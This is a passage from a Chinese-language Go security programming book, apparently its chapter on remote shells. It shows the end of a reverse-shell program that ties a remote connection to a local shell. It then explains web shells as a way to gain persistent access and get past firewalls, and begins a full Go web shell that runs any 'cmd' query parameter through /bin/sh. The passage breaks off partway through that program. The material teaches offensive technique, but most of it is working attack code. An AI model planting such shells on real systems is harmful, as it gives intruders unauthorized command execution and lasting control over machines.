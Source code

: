 ```go
   if err != nil {
      log.Fatal("Error connecting. ", err)
   }
   log.Println("Connection established. Launching shell.")

   command := exec.Command(shell)
   // Take advantage of reader/writer interfaces to tie inputs/outputs
   command.Stdin = remoteConn
   command.Stdout = remoteConn
   command.Stderr = remoteConn
   command.Run()
} 
```

# 创建 Web shell

Web shell 类似于绑定 shell，但是它不是作为原始 TCP 套接字进行监听和通信，而是作为 HTTP 服务器进行监听和通信。这是一种创建对机器持久访问的有用方法。

Web shell 可能是必要的一个原因是防火墙或其他网络限制。HTTP 流量可能会与其他流量有所不同。有时，`80`和`443`端口是防火墙允许的唯一端口。一些网络可能会检查流量，以确保只有 HTTP 格式的请求被允许通过。

请记住，使用纯 HTTP 意味着流量可以以纯文本形式记录。可以使用 HTTPS 加密流量，但 SSL 证书和密钥将驻留在服务器上，因此服务器管理员将可以访问它。要使此示例使用 SSL，只需将`http.ListenAndServe()`更改为`http.ListenAndServeTLS()`。第九章中提供了此示例，*Web 应用程序*。

Web shell 的便利之处在于您可以使用任何 Web 浏览器和命令行工具，例如`curl`或`wget`。您甚至可以使用`netcat`并手动创建 HTTP 请求。缺点是您没有真正的交互式 shell，并且一次只能发送一个命令。如果使用分号分隔多个命令，可以在一个字符串中运行多个命令。

您可以像这样手动创建`netcat`或自定义 TCP 客户端的 HTTP 请求：

```go
GET /?cmd=whoami HTTP/1.0\n\n  
```

这将类似于由 Web 浏览器创建的请求。例如，如果您运行`webshell localhost:8080`，您可以访问端口`8080`上的 URL，并使用`http://localhost:8080/?cmd=df`运行命令。

请注意，`/bin/sh` shell 命令适用于 Linux 和 Mac。Windows 使用`cmd.exe`命令提示符。在 Windows 中，您可以启用 Windows 子系统并从 Windows 商店安装 Ubuntu，以在不安装虚拟机的情况下在 Linux 环境中运行所有这些 Linux 示例。

在下一个示例中，Web shell 创建一个简单的 Web 服务器，通过 HTTP 监听请求。当它收到请求时，它会查找名为`cmd`的`GET`查询。它将执行一个 shell，运行提供的命令，并将结果作为 HTTP 响应返回：

```go
package main

import (
   "fmt"
   "log"
   "net/http"
   "os"
   "os/exec"
)

var shell = "/bin/sh"
var shellArg = "-c"

func main() {
   if len(os.Args) != 2 {
      fmt.Printf("Usage: %s <listenAddress>\n", os.Args[0])
      fmt.Printf("Example: %s localhost:8080\n", os.Args[0])
      os.Exit(1)
   }

   http.HandleFunc("/", requestHandler)
   log.Println("Listening for HTTP requests.")
   err := http.ListenAndServe(os.Args[1], nil)
   if err != nil {
```